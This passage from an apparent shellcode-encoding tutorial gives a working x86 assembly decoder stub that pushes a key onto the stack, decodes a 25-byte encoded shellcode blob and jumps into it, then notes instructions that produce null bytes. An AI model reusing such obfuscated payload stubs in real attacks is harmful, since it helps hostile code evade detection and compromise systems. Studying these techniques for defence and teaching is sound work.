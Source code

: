 ## Smart decrypter

Another way could be to push the key on the stack in order to have the same shellcode length for any key length.  The following sample works easily:

```ASM
global _start

section .text
_start:

	xor eax, eax
	push eax
	push 0x59544952
	push 0x55434553
	mov eax, esp ;save KEY
	
	jmp short call_decrypter

decrypter:
	pop esi
	xor ecx, ecx
	mov cl, 25

restore_key:
	mov ebx, eax ;register used for decryption

decrypte:
	mov dl, byte [ebx]
	add byte [esi], dl
	inc esi
	inc ebx
        mov edx, ebx
	sub edx, eax
	sub dl, 8
	jz restore_key

	loop decrypte

	jmp short Shellcode


call_decrypter:
	call decrypter
	Shellcode: db 0xde,0x7b,0x0d,0x13,0xdd,0xe6,0x1f,0x0f,0x15,0xea,0x1f,0x14,0x1c,0x40,0x8f,0xf7,0x36,0x9d,0x10,0x34,0x8f,0x67,0xb7,0x74,0x2d
```
 However, theses ASM lines all contains null bytes:
 
 ```
00 46 01                add    BYTE PTR [esi+0x1],al
00 5e 01                add    BYTE PTR [esi+0x1],bl
00 4e 01                add    BYTE PTR [esi+0x1],cl
00 56 01                add    BYTE PTR [esi+0x1],dl
 ```
